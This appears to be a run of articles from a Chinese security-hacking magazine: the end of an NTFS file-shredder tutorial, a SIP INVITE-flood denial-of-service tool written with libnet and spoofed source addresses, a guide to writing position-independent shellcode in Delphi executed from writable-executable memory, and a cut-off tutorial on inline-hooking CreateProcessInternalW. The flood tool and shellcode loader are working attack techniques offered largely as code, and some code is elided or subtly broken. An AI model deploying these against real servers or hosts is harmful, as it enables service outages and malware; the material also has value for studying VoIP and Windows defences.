if(m_hPartition != INVALID_HANDLE_VALUE)
    ReadDisk(m_hPartition, 0, 1, lpData);
CPartition *partition = new CPartition;
memcpy(&(partition->m_ntfsbpb), lpData, sizeof(NTFS_BPB));
partition->m_hPartition = m_hPartition;
if(strncmp((const char*)partition->m_ntfsbpb.BPB_FileSystem, "NTFS", 4)){
    MessageBox("本软件不支持此文件格式！", NULL, MB_OK);
    return;
}else{
    pNtfsTree = new CNtfsTree;
    pNtfsTree->m_dwMFTStartClus = partition->m_ntfsbpb.BPB_MFTStartClus;
    pNtfsTree->m_dwSecPerClus = partition->m_ntfsbpb.BPB_SecPerClus;
    pNtfsTree->m_dwBytesPerSec = partition->m_ntfsbpb.BPB_BytesPerSec;
    pNtfsTree->m_hPartition = partition->m_hPartition;
    SetDlgItemText(IDC_STATIC_TIP, "正在对文件进行深层次粉碎，请稍后...");
    NtfsObject.GetMFT80AttrOffset(pNtfsTree);
    MessageBox("文件粉碎成功!", "提示", MB_OK);
    SetDlgItemText(IDC_STATIC_TIP, "");
    OnBnClickedCancelAll();
    DeleteFile(g_pFilePath);
}
```

以下是如何遍历 `$MFT` 表 80 属性下记录的所有 MFT 表项内容，具体代码如下：

```cpp
void SearchMFTFile(CNtfsTree *pDirTree, DWORD dwStartSec, DWORD dwTotalSec)
{
    DWORD dwBytesPerSec, dwSecPerClus, dwTotalSecTemp;
    BOOL isDirectoryFlag, isFileDeleteFlag;
    wchar_t fileName[256] = {0};
    char fileNameTemp[256] = {0};
    char MFTFlag[5] = {0};
    LPBYTE lpBuffer, lpTempBuffer;

    dwBytesPerSec = pDirTree->m_dwBytesPerSec;
    dwSecPerClus = pDirTree->m_dwSecPerClus;
    dwTotalSecTemp = dwStartSec + dwTotalSec;
    while(dwStartSec < dwTotalSecTemp){
        // 分配 1 个 MFT 表项大小
        lpBuffer = (LPBYTE)malloc(2 * dwBytesPerSec);
        // 读取 2 个扇区内容，即 1 个 MFT 表项值
        ReadDisk(pDirTree->m_hPartition, dwStartSec, 2, lpBuffer);

        memset(MFTFlag, 0, sizeof(MFTFlag));
        memcpy(MFTFlag, lpBuffer, 4);
        // 若分析的扇区不是 MFT 表项则 continue
        if(strcmp(MFTFlag, "FILE") != 0 || *(LPWORD)(lpBuffer + 0x14) == 0){
            dwStartSec += 2;
            free(lpBuffer);
            lpBuffer = NULL;
            continue;
        }
        // 忽略目录和已删除文件
    }
}
```

```cpp
else if ((*(LPWORD)(lpBuffer + 0x16) == 0) ||
         (*(LPWORD)(lpBuffer + 0x16) == 2) ||
         (*(LPWORD)(lpBuffer + 0x16) == 3)) {
    dwStartSec += 2;
    free(lpBuffer);
    lpBuffer = NULL;
    continue;
}
else if ((*(LPWORD)(lpBuffer + 0x16) == 1)) {
    // 正常文件，获取 $MFT 头部的属性长度
    wMFTHeadAttrLen = *(LPWORD)(lpBuffer + 0x14);
    lpTempBuffer = lpBuffer;
    lpTempBuffer += wMFTHeadAttrLen;
    dwMFTAttrlen = 0;

    // 记录 MFT 头开始到 80 属性起始处的偏移值
    if (*(LPDWORD)lpTempBuffer == 0x10) { ... }
    if (*(LPDWORD)lpTempBuffer == 0x30) { ... }

    // 获取文件名、属性偏移、内容偏移等
    memcpy(fileName, ...);
    WideCharToMultiByte(...);

    if (strcmp(FileNameTemp, g_pFileName)) {
        pNTFSTree = new CNtfsTree;
        ...
    }
}
```

```cpp
dwStartSec += 2;
free(lpBuffer);
lpBuffer = NULL;
continue;

// 直接跳转到 30 属性后面的属性
lpTempBuffer += dwMFT30AttrLen - AttrValOffset;

LPBYTE tempBuff = lpTempBuffer;
if (*(LPDWORD)tempBuff == 0x80) {
    // 得到 80 属性总大小
    dwMFT80AttrLen = *(LPWORD)(tempBuff + 0x04);

    if (*(tempBuff + 0x08) == 0) {
        // 常驻属性：文件内容在 MFT 表项中
        DWORD FileContentLen = *(LPDWORD)(tempBuff + 0x10);
        DWORD FileContentOff = *(LPWORD)(tempBuff + 0x14);

        FILE *fp = fopen(g_pFilePath, "rb+");
        char *pbuf = new char[FileContentLen];
        for (int i = 0; i < FileContentLen; i++) pbuf[i] = '0xAA' + i;
        fwrite(pbuf, sizeof(char), FileContentLen, fp);
        delete pbuf;
        fclose(fp);

        WriteDisk(pNTFSTree->m_hPartition, dwStartSec, FileContentLen, dwMFTAttrlen);
        return;
    } else {
        // 非常驻属性：读取运行结构
        WORD RunValOffset = *(LPWORD)(tempBuff + 0x20);
        DWORD runBytes = dwMFT80AttrLen - RunValOffset;
        tempBuff += RunValOffset;
        GetContentUseClus(tempBuff, runBytes, pNTFSTree);
    }

    lpTempBuffer += dwMFT80AttrLen;
}

if (g_flag) {
    SmashFileContent(pNTFSTree);
}

dwStartSec += 2;
```

上面的程序给出了如何准确地搜索出待粉碎文件，并获取到其所占扇区总数及其每个扇区的偏移。下面，给出如何对指定的扇区位置置 0 或 1 操作函数，实现代码如下：

```cpp
// 从指定扇区号 dwSector 开始，写入 dwLength 长度的数据
BOOL WriteDisk(HANDLE hpartition, DWORD dwSector, DWORD dwLength)
{
    ...
}
```

```c
DWORD dwCB, dwFilePointer;
unsigned char* lpBuffer = (unsigned char*)malloc(dwLength * 512);
memset(lpBuffer, 0, dwLength * 512);
LARGE_INTEGER offset;
/* 将文件偏移值转化为 int64 */
offset.QuadPart = UInt32x32To64(dwSector, 512);
/* 偏移到指定的扇区位置 */
dwFilePointer = SetFilePointer(hpartition, offset.LowPart, &offset.HighPart, FILE_BEGIN);
/* 对指定的多个连续扇区位置擦写操作 */
WriteFile(hpartition, lpBuffer, dwLength * 512, &dwCB, NULL);
free(lpBuffer);
return true;
```

## 软件测试

基于 NTFS 系统在处理不同大小的文件时不一致，下面测试两种存储方式下的文件，即文件内容存放在 MFT 表内和存放在数据区域内。首先，设文件名为 important.txt，且文件内容为“I want to smash the file, and I don't like that anybody get it.”运行软件后效果如图 3 所示。


> 图 3 文件粉碎机运行界面

下面采用 EasyRecovery 软件，选择“高级数据恢复”对粉碎的文件进行恢复，界面如图 4 所示。


> 图 4 EasyRecovery 软件恢复已粉碎文件的界面

单击“下一步”按钮，保存到不同的分区下，打开恢复后的文件，其内容如图 5 所示。显然，文件已经被粉碎了，此时若采用软件方式恢复，是无法再现出此文件内容的。当然，若需防范深层次信号还原法技术，需要多次且交替地复写文件。


> 图 5 EasyRecovery 恢复后的内容

对大文件进行粉碎的测试这里就不再给出，由前面的代码可知，将文件对应的所有扇区全部置为 0，此时若采用 EasyRecovery 恢复此文件，打开的文件将会是一个空文件。当然，最好是多次交替地调用 WriteDisk 函数，交替反复地写此文件。

最后，提示读者在 NTFS 文件系统下，企图一次对小文件（即文件内容存放在其对应的 MFT 表项 80 属性内）进行复写“0”操作实现文件删除将不会成功，因为 MFT 文件受系统保护，当 MFT 文件破坏后，系统会另行复制一个未修改的 MFT。一般而言，新生成的 MFT 会紧邻被破坏的 MFT 表，读者可自行测试。

## 小结

数据恢复技术与数据擦除技术是对立的，但对任何一个对数据信息较为敏感的人而言，都无法脱离两者。很多时候你不小心删除了或被病毒污染了某重要文件，此时需要寻找一个强大的恢复软件，对文件实施数据恢复；同样，你也会遇到某些重要文件不再使用时，需要彻底地擦除。本文介绍了一种较好的方法实现任一文件的粉碎并进行了详细的代码分析。而且，为了达到数据安全国际标准，读者完全可以选择多次交替地复写 0 和 1，实现文件彻底粉碎。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：无  
关键词：SIP、DOS 攻击

## SIP 协议的 DOS 攻击
### 原理及机理工具编程实现


文/图 Handt、换心

## SIP 协议简介

关于 SIP 协议的介绍，最权威的文档是 RFC3261。国内目前关于 SIP 协议的介绍比较少，唯一的几本书，字里行间都充斥着明显的翻译痕迹。

这里，我就根据自己的理解和参考资料甄别后，简单地谈谈 SIP 协议。更详细的内容请读者翻阅 RFC 和《SIP 原理与应用》一书以及 Google。

SIP，Session Initial Protocol，字面意思是会话（Session）初始化协议。看到协议名就很容易想到几个问题：什么是 Session？为什么要有这个协议，即这个协议具有什么特点，要独立门户？该协议目前又有哪些应用？

这里的 Session 就是“关联参与者之间的数据交换”（参见 RFC3261 第 1 节）。目前已经有很多公认的协议来负责传输各种形式的实时多媒体会话数据（Session data），比如音频、视频或文本消息。这个 Session data 中的 Session 就是数据交换。

作为 IP 电话关键技术之一的信令技术，目前被广泛接纳的有两个体系，包括 ITU-T 的 H.323 系列和 IETF 的 SIP。H.323 提供了窄带多媒体通信所需要的所有子协议，但 H.323 的控制协议非常复杂。此外，H.323 不支持多点发送协议，只能采用多点控制单元构成多点会议，因而只能同时支持有限的多点用户。H.323 也不支持呼叫转移，而且呼叫建立的时间比较长。与 H.323 相反，SIP 是一种比较简单的会话初始化协议，具有以下特点：

- 只提供会话和呼叫的建立与控制功能。
- 既支持单点也支持多点发送。
- 是基于文本的协议（类似于 HTTP），易于实现和调试，灵活性和扩展性好。
- 只用于初始化呼叫，而不传输数据。因而造成的附加传输代价小。
- 相比 H.323，SIP 建立呼叫快，支持传递主叫号码。

通过两者的比较，我们可以看出 SIP 是作为取代 H.323 的身份出现的，这就是它存在的意义。

最后是 SIP 协议的应用领域问题。目前，SIP 协议主要应用于 VoIP 中，SIP 协议在 Internet 体系中的位置如图 1 所示。


## SIP 协议中的基本概念

我先介绍一下 SIP 协议中的一些基本概念，有助于后面对原理的理解。

如图 2 所示是一个典型的呼叫流程。


- handt 发送一个 INVITE 消息（message）给代理服务器，代理服务器通过解析消息中的 To 字段，找到被邀请者所在的域；如果该域和服务器所在域相同，就直接转发 handt 的 INVITE 消息给 pbc。接下来，就是响铃的过程（图中的 180 Ringing），和我们打电话时“嘟……嘟……”一样。这时 pbc 接电话了，她按下接收键，发送了一个 200 OK 的信息给 handt，于是，他们开始通话了。通话时的音频/视频或者文本传输都不属于 SIP 的范畴。

SIP 只负责建立这个 Session，而具体的数据传输可能是 RTP 或者其他协议。电话打完后，handt 挂机了，发送一个 BYE 给 pbc，pbc 返回一个 200 OK 的消息作为应答。

在这里，有几个专有名词：

- UA：包括 UAC 和 UAS。UA 表示 user agent，因为人（user）要通过 PC 上的 IP 电话软件或者手机来打电话，所以这个手机等就是 agent 了。UAC 和 UAS 是个相对的概念，发起方是 UA client，接收方是 UA server。
- 代理服务器：图 2 看到的 proxy 就是一个代理服务器，负责转发 handt 和 pbc 的消息。
- 注册服务器：在图 2 中没有标出。注册时可以将用户的当前位置等信息发送给服务器。
- 定位服务器：同样没有出现在图 2 中。该服务器在寻找用户时用到。比如被呼叫用户不在同一个域中，需要到定位服务器中找到请求应该转发到的地址。这个和路由器的路由表很相似。

另外，在刚开始接触 SIP 的时候，经常会对事务（transaction）、对话（dialog）、会话（session）、消息（message）这几个概念弄不清楚。简单的对比如下：

- Transaction：必须是一对，一去一来。一个 request 紧接着的 response。
- Message：所有的 SIP 数据包都是 message。
- Dialog：在建立 INVITE+ACK 之后，到 BYE/CANCEL 之间的对话，叫做对话。
- Call：从发起方拨号后，直到最后挂机都是 call。每次 call 由 call-id 来唯一标识。
- Transaction 由 request 的 CSeq 和拥有相同 call-id + CSeq 的 response 组成。

## SIP 协议的 DOS 攻击成因

DOS 攻击即拒绝服务式攻击，通过某种攻击手段，使服务器没法响应合法用户的请求，形成拒绝服务的效果。

DOS 攻击一般对服务器的三种资源进行消耗从而达到目的，分别是带宽、CPU 使用率、内存使用率。

由于 SIP 是应用层的协议，支持 TCP 和 UDP 两种方式。针对 TCP 实现的 SIP，我们可以通过经典的三次握手漏洞进行 SYN flooding 攻击。而针对基于 UDP 的 SIP 呢？下面进行具体分析。

SIP 中的 Register 和 INVITE 消息都需要服务器进行判断分析。在最常用的 SIP 服务器 SER 中，Register 的实现流程如图 3 所示。

可以看到，对 call-id 是否合法的判断放在了第二位，服务器如何判断 call-id 是否合法呢？查询数据库。而数据库查询是最消耗资源的（相对简单的 Nonce/Response 合法性判断）。这个时候问题就来了：我们通过在短时间内发送大量的 register 包，这些包都通过 sniff 获得一个合法的 nonce 后发送到服务器，此时服务器就得不断查询数据库来判断用户是否合法。通过数据库查询操作消耗服务器的 CPU 和内存资源，然后达到 DOS 攻击的目的。

SIP 协议存在的另一个典型、可能带来 DOS 攻击的点就是 INVITE 方法。在图 2 中，proxy 收到一个 INVITE 消息之后在服务器上维持了一个 Session 来记录请求者的相关信息（比如 call-id 等）。若被请求用户存在，并返回了一个 200 OK，而请求方不返回 ACK，那么服务器就得在内存中一直维持这个 Session。

为考虑到请求方不发送 ACK 可能是因为网络等故障，所以服务器就一直等。在协议中，默认的重传时间是 500ms，然后以 2 的指数级增长：第一次等 500ms 没有 ACK，再等 500×2=1s，还没有，再等 1×2=2s……一共等 7 次，如果还没有看到 ACK，才决定丢掉这个 Session。正是 SIP 协议中的这个缺陷，导致了 INVITE 攻击是 SIP 攻击中最危险的。下面，我们将自己实现一个 Invite flooding 的工具，达到 DOS 攻击的效果。


图 3 SER 中处理 REGISTER 消息的流程

## 动手编写 InviteFlood 工具

这是基于 libpcap 编写的一个攻击工具，在 Ubuntu/Linux 下编译通过。

测试环境：  
Sip 服务器：ser 0.9.6（自己下源码编译）。  
出于测试的目的，去掉了服务器的验证功能。

先来确定一下编程思路：

- 获取所有必须的信息，包括用户要伪造的 IP 和端口值、攻击次数等。
- 封装 SDP 数据包头。
- 封装 SIP 数据包头，每次循环替换掉 branch 的值。
- 添加 UDP/IP/Ethernet 头部。
- 循环发送数据包。

可以看到，程序流程比较简单，主要是需要熟悉 libpcap 和 libnet 中的一些库函数。另外，SIP 数据包的格式定义比较严格，比如换行必须是 `"\r\n"` 的组合。代码中只列出核心部分，容错方面的代码都已省略，完整代码可以到黑防官方网站下载。

构造 SDP 数据包：

```c
sprintf(sdpPayload,
  "v=0\r\n"
  "o=MxSIP 0 639859198 IN IP4 %s\r\n"
  "s=SD-Call\r\n"
  "c=IN IP4 %s\r\n"
  "t=0 0\r\n"
  "m=audio 16388 RTP/AVP 0 18 101 102 107 104 105 106\r\n"
  "4 8 103\r\n");
```

```c
"a=rtpmap:0 PCMU/8000\r\n"
"a=rtpmap:18 G729/8000\r\n"
// 一些 rtpmap 的内容。
// RTP 是一种数据传输协议，通常和 SIP 一起使用
"a=rtpmap:103 telephone-event/8000\r\n"
"a=fmtp:103 0-15\r\n"
"a=silenceSupp:off - - - - \r\n",
srcIPv4AddrDotted,
srcIPv4AddrDotted);
```

```c
destPort,                           // 目的端口
LIBNET_UDP_H + sipPayloadSize,      // UDP 数据包的长度
0,                                  // libnet 计算 UDP 的 sum 值
(u_int8_t *)sipPayload,             // payload
sipPayloadSize,                     // payload 长度
l,
udp_tag);                           // ptag - 0 = 新建，非 0 = 重用
```

构造 SIP 数据包头部。先构造 INVITE 消息：

```c
sprintf(sipPayload,
"INVITE sip:%s%s%s%s%s SIP/2.0\r\n"
"Via: SIP/2.0/UDP %s:%u;branch=%s\r\n",
...);

// 再填充其他行的内容
sprintf(sipPayload + strlen(sipPayload),
"Max-Forwards: 70\r\n"
"Content-Length: %u\r\n"
"To: %s%s<sip:%s%s%s:%u>%s%s\r\n"
"From: %s%s<sip:%s%s%s:%u>;tag=%s\r\n",
...);

// 完成 INVITE 消息的后半部分
sprintf(sipPayload + strlen(sipPayload),
"Supported: timer\r\n"
"Allow: NOTIFY\r\n"
"Allow: REFER\r\n"
"Allow: OPTIONS\r\n"
"Allow: INVITE\r\n"
"Allow: ACK\r\n"
"Allow: CANCEL\r\n"
"Allow: BYE\r\n"
"Content-Type: application/sdp\r\n"
"Contact: <sip:%s%s%s:%u>\r\n"
"Supported: replaces\r\n"
"User-Agent: xlite3.2.1\r\n"
"\r\n",
...);
```

网络层头部：

```c
ipPacketSize = LIBNET_IPV4_H + LIBNET_UDP_H + sipPayloadSize;

ip_tag = libnet_build_ipv4(
    ipPacketSize,      // 包大小
    0,                 // IP TOS
    0,                 // IP ID
    0,                 // fragmentation bits
    64,                // TTL
    IPPROTO_UDP,       // 协议
    0,                 // 计算校验和
    srcIPv4Addr,
    destIPv4Addr,
    NULL,
    0,
    l,
    ip_tag);
```

物理层头部以及发送数据包，下面用到的 psCSeq 值通过函数 GetNextGuid() 获得：

```c
for (i = 0; i < numPackets; i++) {
    cseq++;  // CSeq 唯一标识一个 packet，递增
    sprintf(psCSeq, "%010u", cseq);
    memcpy(...);

    // 更新 UDP 数据包
    udp_tag = libnet_build_udp(
        srcPort,
        destPort,
        LIBNET_UDP_H + sipPayloadSize,
        0,
        (u_int8_t *)sipPayload,
        sipPayloadSize,
        l,
        udp_tag);

    libnet_toggle_checksum(l, udp_tag, LIBNET_OFF);
    bytesWritten = libnet_write(l);
    if (bytesWritten < ipPacketSize) {
        fprintf(stderr, "Write error...");
        CleanupAndExit(EXIT_FAILURE);
    }
    printf("sent: %u", i + 1);
    // 利用 sleep() 函数控制发包频率
}
```

有了应用层的完整数据包之后，接下来就是填充传输层、网络层、物理层的头部了。  
传输层头部：

```c
udp_tag = libnet_build_udp(
    srcPort,    // 源端口
    ...
);
```

## 攻击效果演示

关于攻击效果的演示，请参见笔者写的《针对 SIP 协议的三种 DOS 攻击危害性测试》一文的详细介绍。  
（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：汇编、Delphi

关键字：ShellCode、Delphi


# 利用 Delphi 玩转 ShellCode

文/图 xfish

ShellCode 一直以来是 Exploit、Virus、Pack 等必不可少的组成部分。在我看来，ShellCode 也是门艺术：精简的体积、强大的功能、完善的独立性……如果说 ShellCode 是门艺术，那么编写 ShellCode 就更是门艺术。文中以 RAT、Morphine 等案例引出其价值，并讨论了在不同开发环境中使用 ShellCode 的实践。

首先我们要理解 ShellCode。ShellCode 是一段可以在内存中执行的代码，不需要外界力量即可运行。它类似“内存中的可执行文件”，因此很多工作需要自行完成，例如获取函数地址、处理重定位等。常规程序依赖加载器，而 ShellCode 需要尽量独立完成初始化流程。

- 函数必须动态地获取执行。
- 固定地址必须处理重定位。

看到函数动态获取，通常会想到 GetProcAddress。但 ShellCode 在内存执行，且要适应不同计算机环境，因此常需自行实现类似功能。文中提出通过 Hash 匹配函数名以减少体积，并给出对应函数实现。

```pascal
function xGetProcAddress(hModule: HMODULE; dwProcNameHash: DWORD): FARPROC; stdcall;
var
  lpNtHeaders: PImageNtHeaders;
  lpExportDirectory: PImageExportDirectory;
  dwLoop: DWORD;
  lpdwNameAddress: PDWORD;
  lpdwOrdinals: PWORD;
  lpszName: PChar;
  dwCrcReg: DWORD;
begin
  Result := nil;
  if (PImageDosHeader(hModule)^.e_magic <> IMAGE_DOS_SIGNATURE) then Exit;
  ...
  for dwLoop := 0 to (lpExportDirectory^.NumberOfNames - 1) do
  begin
    lpszName := PChar(lpdwNameAddress^ + hModule);
    dwCrcReg := GetRolHashPascal(lpszName);
    if (dwCrcReg = dwProcNameHash) then
    begin
      Result := Pointer(...);
      Break;
    end;
    inc(DWORD(lpdwNameAddress), SizeOf(DWORD));
    inc(DWORD(lpdwOrdinals), SizeOf(WORD));
  end;
end;
```

上面函数匹配函数名时用的 Hash 算法是简单的 Rol3 运算。Hash 算法如下：

```pascal
function GetRolHashPascal(ipszBuffer: PChar): DWORD; stdcall;
const
  Rol_Count = 3;
begin
  Result := 0;
  while (ipszBuffer^ <> #$0) do
  begin
    Result := ((Result shl Rol_Count) and $FFFFFFFF) or (Result shr (32 - Rol_Count)) xor PBYTE(ipszBuffer)^;
    Inc(PBYTE(ipszBuffer));
  end;
end;
```

好了，到这里 GetProcAddress 函数已经打造成功。接下来我们该解决的是固定地址的重定位处理。看一下平常我们用 Delphi 调用一个函数（MessageBoxA），最终编译后的结果如图 1 所示。


图 1

通过图 1 可以看到，我们调用的是 MessageBox 函数，4 个参数分别传入 0，而 call 指令在调用的时候后面是相对偏移（当然这里是指 Delphi 编译器，不过我们在编写的时候调用的是我们自己表中的地址，所以这里可以省略）。函数调用我们没有进行传参，接下来我们传入参数后再来看一下结果，如图 2 所示。


图 2

通过图 2 我们可以看到，传入的两个参数以固定地址进行压入，分别是 $00407CF8、$00407D00。你有没有注意到这两个地址与我们的调用代码地址非常接近？没错，这就是 Delphi 编译器的特点……通过如图 3 所示你可以清晰地看到。


图 3

你是否觉得 Delphi 的这个特点十分“强大”呢？呵呵，因为大部分编译器直接将字符串常量编译在全局数据段，而 Delphi 编译在调用过程的尾部。这样的话，很方便我们将代码进行移植。

```pascal
procedure Start;
asm
  jmp ShowMessage
end;

procedure ShowMessage;
begin
  MessageBox(0, 'This is Demo!', 'Hi..', MB_OK);
end;

procedure StartEnd;
begin
end;
```

通过上面的代码段，我们可以将“StartEnd”的函数偏移 - Start 的函数偏移 = 我们要移植的代码大小……

（右栏）Delphi 字符串常量编译特性说明：字符串常量会被编译在函数尾部（如 ShowMessage 过程尾部），便于代码移植；但固定地址在迁移后会失效，需要动态修正。

接下来说明重定位：计算“编译阶段与运行时”的偏移差，将该偏移加到原地址上即可得到修正后的地址。这里通过 Basm 来嵌入汇编。

```pascal
call @Dels
int 1
@Dels:
pop eax
sub eax, ((offset @Dels)-2)
```

执行以上代码，eax 寄存器保存的就是偏移差。通过该偏移差加上原有编译地址就等于修正后的地址。

```pascal
function FixPChar(pszString: PChar; dwDels: DWORD): PChar; stdcall;
begin
  Result := PChar(DWORD(pszString) + dwDels);
end;
```

随后进入实际 ShellCode 编写：构建代码移植平台，将主要代码放在 ShellCodeStart 过程中。

```pascal
procedure ShellCodeEntry;
asm
  call ShellCodeStart
end;

procedure ShellCodeStart;
begin
end;

procedure ShellCodeEnd;
begin
end;
```

然后我们只要专心在 ShellCodeStart 过程中编写主要代码即可。若需要结构表，可将 ShellCodeEnd 过程的偏移当作自定义结构处理，在生成 ShellCode 时追加到 ShellCodeStart 尾部。

最后定义结构存储要调用的函数地址：第一个成员为 GetProcAddress 地址（初始化时加重定位差），第二个成员为 GetKernelBase 获取 kernel32 基址函数地址，第三个成员为系统 GetProcAddress 地址，第四个成员为 LoadLibraryA 地址，第五个成员为 MessageBoxA 地址，第六个成员为重定位偏移。

```pascal
pTShellData:=^TShellData;
TShellData = packed record
  fGetProcAddress: function(hModule: HMODULE; dwProcNameHash: PDWORD): FARPROC; stdcall;
  fGetKernalBase: function(): HMODULE; stdcall;
  GetProcAddress: TGetProcAddress;
  LoadLibraryA: TLoadLibraryA;
  MessageBoxA: TMessageBoxA;
  gDels: DWORD; // 重定位偏移
end;
```

```pascal
GetProcAddress:=fGetProcAddress(fGetKernalBase(), $F2509B84);
// 调用函数
MessageBoxA:=
  GetProcAddress(LoadLibraryA(FixPchar('user32.dll', gDels)),
  FixPchar('MessageBoxA', gDels));
MessageBoxA(0, FixPchar('Hi, this is shellcode!', gDels),
  FixPchar('xfsfj', gDels), MB_OK);
end;
end;
```

我们的工作就是首先初始化结构表，第一个初始化的成员就是 gDels，因为这里保存的是重定位偏移。接下来我们需要用它来计算我们的函数地址。然后初始化完成后，我们调用 fGetKernalBase 和 fGetProcAddress 获取 LoadLibraryA 和 GetProcAddress 的地址。有了这两个函数，我们首先调用 LoadLibraryA 加载 user32.dll，然后 GetProcAddress 获取 MessageBoxA 的函数地址，最终调用 MessageBoxA 来完成我们的工作。这里为了演示字符串和 Hash 的调用，我获取系统的 GetProcAddress 函数；你也可以使用字符串或者 Hash，这取决于你的结构表如何设计。好了，我们看下最终形成的代码。

这里，ShellCode 代码已经编写完成，我们把它复制到我们申请的内存地址中去执行。

```pascal
dwShellSize:=(DWORD(@ShellCodeEnd)-DWORD(@ShellCodeEntry))+SizeOf(TShellData);
pShellBuffer:=VirtualAlloc(nil, dwShellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
CopyMemory(pShellBuffer, Pointer(@ShellCodeEntry), dwShellSize);
asm
  mov eax, [pShellBuffer]
  call eax
end;
```

好了，我们可以看到，代码已经在申请的内存位置中执行成功了，如图 4 所示。


图 4

```pascal
procedure ShellCodeStart;
var
  dwTemp: DWORD;
  pShellData: PTShellData;
begin
  // 计算重定位
  asm
    call @Dels
    int 1
@Dels:
    pop eax
    sub eax, ((offset @Dels)-2)
    mov [dwTemp], eax
  end;
  // 获取结构表
  pShellData:= Pointer(DWORD(@ShellCodeEnd)+dwTemp);
  with pShellData^ do
  begin
    gDels:=dwTemp; // 初始化结构表
    fGetProcAddress:= Pointer(DWORD(@xGetProcAddress)+gDels);
    fGetKernalBase:= Pointer(DWORD(@GetKernalBase)+gDels);
    LoadLibraryA:= fGetProcAddress(fGetKernalBase(), $A412FD89);
  end;
```

到此，我们本篇文章就该画上句号了。本文主要叙述了 Delphi 编写 ShellCode 的方法以及相应的技巧。Delphi 在内嵌 asm 方面做得比 VC 编译器好很多，不过 VC 编译器也有很多强大的地方，这些留到以后再给大家呈现吧！最后希望此篇文章能给大家带来一些帮助，也希望通过此篇文章，大家今后在编写 ShellCode 的时候并不局限于汇编编译器以及 VC 编译器，要知道其实 Delphi 也是一个强大的利器。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键字：Ring3、Hook、编程

# Ring3 Hook 中的无缝衔接


文/图 腾袭

## 引子

首先，对我在写这篇文章时给予我帮助的 Xiaoly 表示感谢，感谢他为我提供的帮助。

先来讲讲以前的 Hook 通用性方法吧。比如我们要 Hook 一个函数，首先把函数的前 5 个字节换成 jmp xxx，就是跳到自己的伪函数来对参数进行处理。完成后可能我们还需要调用原来的函数，这时我们又把这个函数的前 5 个字节换回去，再调用这个函数。

可是这样一来，像在一些多线程程序中，不同的线程可能都会调用这个函数，而我们却频繁地修改这个函数的前 5 字节，这样就可能导致一些函数调用没有被拦截到，甚至可能导致意外的错误发生。所以，这篇文章就来介绍一种不需要频繁修改函数头的 Hook 方式。

## 原理

我们假设 Hook CreateProcessInternalW 函数（Ring3 创建进程的一个函数，WinExec、CreateProcessA、CreateProcessW 等函数最后都会调用到它）。

先看这个函数原来的流程顺序，如图 1 所示（以下代码均为 Windows 7 RTM 中的，不同的操作系统可能有差别）。


可见，该函数前 5 字节为 6808060000，在汇编中即 `push 608h`。

一般的 Hook 方式就是修改这 5 字节为 `jmp xxx`，让程序在调用这个函数时跳转到自己的伪函数，如图 2 所示。


可是这样一来，就会需要再改回前 5 字节才能调用原函数。笔者采用了一种巧妙的方式来避免这个问题，如图 3 所示。我们只需要在处理完我们的伪函数后，先处理一下原函数的前 5 字节再跳回去不就好了？


没错，我们先执行完以前的一句 `push 608h`，然后再一句 `jmp CreateProcessInternalW + 5` 就跳回到原函数了，省去了以前需要反复修改函数头的过程，是不是方便了许多？这就实现了无缝衔接。

不过，前提是前 5 字节必须构成一条或一条以上的完整汇编。虽说微软几乎所有函数的前 5 字节都是一句完整的汇编代码，可是为了保险大家可以用 WinDbg 之类的反汇编工具进行查看。

而如果不是 5 字节的话，我们就把多出来的字节也和前 5 字节一起复制过去就好了。反正要保证前 5 字节为 `jmp xxx`，和原来位置处的代码为一句或一句以上的完整汇编代码就好了。这种情况极其少见，这里不多做讨论。

## 实现

原理大家都明白了，现在就看看代码吧。

鉴于使用 Unicode 的函数，就都使用 UNICODE 环境吧（这里使用控制台应用程序来演示）。

```c
#define UNICODE 1
#define _UNICODE 1
#include <stdio.h>
#include <Windows.h>
#include <tchar.h>

#ifndef LC_ALL
#define LC_ALL 0
#endif
```

由于 CreateProcessInternalW 函数在 Windows 头里面没有定义，我们就为动态调用做一些准备吧。

```c
// CreateProcessInternalW 的参数，先做这样约定可以减少很多代码量
#define CPI_Parameters \
    HANDLE hToken, \
    LPCWSTR lpApplicationName, \
    LPWSTR lpCommandLine, \
    LPSECURITY_ATTRIBUTES lpProcessAttributes, \
    LPSECURITY_ATTRIBUTES lpThreadAttributes, \
    BOOL bInheritHandles, \
    DWORD dwCreationFlags, \
    LPVOID lpEnvironment, \
    LPCWSTR lpCurrentDirectory, \
    LPSTARTUPINFOW lpStartupInfo, \
    LPPROCESS_INFORMATION lpProcessInformation, \
    PHANDLE hNewToken

typedef BOOL (WINAPI *FN_CreateProcessInternalW)(CPI_Parameters);
FN_CreateProcessInternalW fn_CreateProcessInternalW = NULL;

// 使用 WriteProcessMemory 来给进程空间写数据
void WriteMem(void* Dst, const void* Src, size_t Size) {
    WriteProcessMemory(GetCurrentProcess(), Dst, Src, Size, 0);
}

void Hook(PVOID Func, PVOID New_Func, PVOID Proxy_Func) {
    BYTE bHookCode[5] = {0xe9,0,0,0,0};
    BYTE bJmpCode[5]  = {0xe9,0,0,0,0};
}
```

```cpp
// 计算跳转地址
*((PULONG)(bHookCode + 1)) = (ULONG)New_Func - (ULONG)Func - 5;
*((PULONG)(bJmpCode + 1)) = (ULONG)Func - (ULONG)Proxy_Func - 5;

// 将原始函数的前5字节写入代理函数
WriteMem(Proxy_Func, Func, 5);
// 将跳转代码接着写入代理函数
WriteMem((void*)((ULONG)Proxy_Func + 5), bJmpCode, 5);
// 写入新的函数头，即 jmp xxx
WriteMem(Func, bHookCode, 5);

void UnHook(PVOID orig_Func, PVOID Proxy_Func)
{
    // 还原原始函数的前5字节
    WriteMem(orig_Func, Proxy_Func, 5);
}

BOOL WINAPI Proxy_CreateProcessInternalW(CPI_Parameters)
{
    __asm {
        nop
        nop
        nop
        nop
        nop
        nop
        nop
        nop
        nop
        nop
    }
}

BOOL WINAPI Fake_CreateProcessInternalW(CPI_Parameters)
{
    TCHAR szCmd[512];
    wsprintf(szCmd, _T("%s%s"),
        lpApplicationName == NULL ? _T("") : lpApplicationName,
        lpCommandLine == NULL ? _T("") : lpCommandLine);

    _tprintf(_T("Fake_CreateProcessInternalW: %s\n"), szCmd);

    if (MessageBox(NULL, szCmd, _T("提示"), MB_YESNO | MB_ICONQUESTION) == IDYES)
    {
        /* return Proxy_CreateProcessInternalW(
            hToken,
            lpApplicationName,
            lpCommandLine,
